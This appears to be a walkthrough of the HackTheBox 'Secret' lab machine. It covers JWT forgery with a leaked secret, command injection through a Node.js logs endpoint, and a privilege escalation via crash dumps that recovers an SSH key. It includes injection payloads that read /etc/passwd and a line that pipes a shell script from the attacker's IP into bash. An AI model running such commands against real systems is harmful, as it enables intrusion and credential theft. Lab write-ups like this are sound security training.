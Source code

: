 # Secret

![Secret.png](Secret/Secret.png)

### 10/30/2021

[https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)

[https://infosecwriteups.com/celestial-a-node-js-deserialization-hackthebox-walk-through-c71a4da14eaa](https://infosecwriteups.com/celestial-a-node-js-deserialization-hackthebox-walk-through-c71a4da14eaa)

Default Network mapper scan to discover open ports on host:

![Untitled](Secret/Untitled.png)

SSH service open port

Hyper text transfer protocol port

3000 HTTP Node JS middleware open port - Is a web framework that has minimal functionality of its own. Middleware can change information

![Untitled](Secret/Untitled%201.png)

Application without subdomains:

![Untitled](Secret/Untitled%202.png)

Initial page in the 3000 port:

![Untitled](Secret/Untitled%203.png)

Ok, we have an API, and a location to register user:

![Untitled](Secret/Untitled%204.png)

Testing request methods on API:

![Untitled](Secret/Untitled%205.png)

Directorys:

![Untitled](Secret/Untitled%206.png)

Reading commit logs to find something useful:

![Untitled](Secret/Untitled%207.png)

Okay in this way we got a different response by the server:

![Untitled](Secret/Untitled%208.png)

![Untitled](Secret/Untitled%209.png)

![Untitled](Secret/Untitled%2010.png)

Set the correct content type to you can achieve the register page:

![Untitled](Secret/Untitled%2011.png)

Ok, now we get a user account:

![Untitled](Secret/Untitled%2012.png)

In the login page it sends a JWT token:

![Untitled](Secret/Untitled%2013.png)

Ok i receive the response in the normal port 80, probably the API's are linked:

![Untitled](Secret/Untitled%2014.png)

When we put a null character the server returns a error:

![Untitled](Secret/Untitled%2015.png)

The process of get the admin account token was: 

Reading the commit log in the file folder, i found a secret token that is used to generate a web token:

![Untitled](Secret/Untitled%2016.png)

Reading the code and how it creates a JWT token, i know that the token is the id, username and email, and it is processed by JWT token. 

![Untitled](Secret/Untitled%2017.png)

So, i get myself token:

![Untitled](Secret/Untitled%2018.png)

paste in the JWT generator, set the signature and change the name and email to admin credentials:

![Untitled](Secret/Untitled%2019.png)

It works successfully:

![Untitled](Secret/Untitled%2020.png)

![Untitled](Secret/Untitled%2021.png)

Reading more about how the server treat with the log file, i found the code in the commits history:

It receive file from request and executes with exec function in node js:

![Untitled](Secret/Untitled%2022.png)

The request reply our LFI

![Untitled](Secret/Untitled%2023.png)

Searching more about how to explore exec function in Node i found a article in this link:

[https://auth0.com/blog/preventing-command-injection-attacks-in-node-js-apps/](https://auth0.com/blog/preventing-command-injection-attacks-in-node-js-apps/)

Basically to it works just pass a name of a file and close the command:

```python
index.js;ls
index.js;whoami
```

![Untitled](Secret/Untitled%2024.png)

```python
GET /api/logs?file=index.js;cat%20/etc/passwd HTTP/1.1
Host: 10.10.11.120
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2
Content-type: text/html
auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTgwMzg4NjNiNjJhOTA0NTgzN2MxYWQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJvb3RAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM1Nzk1ODM0fQ.d2XZObmsEN1yreKYy5HIV_w3OAJ9YggwvH14Ka1bek8
```

![Untitled](Secret/Untitled%2025.png)

```python
http://10.10.11.120/api/logs?file=index.js;curl+http%3a//10.10.14.81%3a8000/shell.bash|bash
```

Reading the Strace of a binary, we can look at that it reads a file:

![Untitled](Secret/Untitled%2026.png)

Db credentials:

![Untitled](Secret/Untitled%2027.png)

![Untitled](Secret/Untitled%2028.png)

The machine register logs because the prctl are enabled. 

![Untitled](Secret/Untitled%2029.png)

We can try read this with apport-unpack

```python
apport-unpack
```

We must have to run the program and then generate a crash

![Untitled](Secret/Untitled%2030.png)

Crash file generated:

![Untitled](Secret/Untitled%2031.png)

Unpacking and accessing the folder:

![Untitled](Secret/Untitled%2032.png)

Id_rsa key:

![Untitled](Secret/Untitled%2033.png)